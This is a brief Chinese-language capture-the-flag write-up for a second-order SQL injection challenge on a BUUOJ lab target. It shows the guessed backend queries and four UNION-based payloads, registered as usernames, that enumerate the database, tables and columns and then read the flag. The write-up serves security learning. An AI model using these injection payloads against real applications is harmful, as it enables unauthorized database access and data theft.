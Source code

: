 # October 2019 Twice SQL Injection

## October 2019 Twice SQL Injection

## 考点

* 注册登录处的二次注入

## wp

看到链接是http://91074d2e-c159-41d3-94a5-47dc939e21bf.node4.buuoj.cn:81/?action=login

尝试`?action=php://filter/read=convert.base64-encode/resource=login`没有反应，那就走流程

有注册、登录和修改信息的功能，先注册用户试试，注册一个aaaaaa，登录可以看到info是有信息的，说明在登录查询之后还有个查询

```sql
select pass from users where name = 'aaa'
select info from users where name = 'aaa'
```

注册一个aaaaaa'，登录发现info变成空白，再注册aaa"，登录发现info又有信息了，可以猜一下后端的插入语句

```sql
insert into users (id,name,pass,info)
values (1,'aaa','aaa','something')
```

在修改info的时候，先改成123，看到返回123，更新完之后还有个查询

```sql
UPDATE users SET info = '123' WHERE name = 'aaa'
select info from users where name = 'aaa'
```

二次注入一般多存在注册登录

注册

```
bbb' union select database()#
bbb' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
bbb' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
bbb' union select flag from flag #
```

## 总结

1. 如果感觉有多个二次注入的点，都试试
